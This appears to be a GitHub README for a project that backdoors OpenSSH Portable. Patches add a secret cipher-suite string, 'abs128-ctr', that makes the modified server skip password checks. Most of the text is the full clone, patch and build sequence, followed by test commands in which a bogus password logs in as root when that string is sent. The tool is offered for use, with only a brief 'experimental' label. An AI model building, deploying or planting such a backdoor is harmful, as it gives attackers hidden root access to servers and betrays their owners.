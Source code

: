 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. 

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server endpoint, adding new users, overwriting credentials, etc. The patch creates a special cipher suite, in this case `abs128-ctr`, that acts as an activation phrase for the backdoor. The OpenSSH client is modified to allow for this new cipher suite string to be sent, and the OpenSSH server, upon receiving the special cipher suite string, will bypass PASSWD authentication for the session. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server in `/usr/local/sbin/sshd`. 

```
git clone https://github.com/openssh/openssh-portable
git clone https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable/
cd openssh-portable/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u servconf.c -i servconf.c.patch
patch -u ssh.c -i ssh.c.patch
patch -u sshd.c -i sshd.c.patch
autoreconf
./configure --bindir=/tmp/
make -j 16
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /usr/local/sbin/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "abs128-ctr,chacha20-poly1305@openssh.com"
```
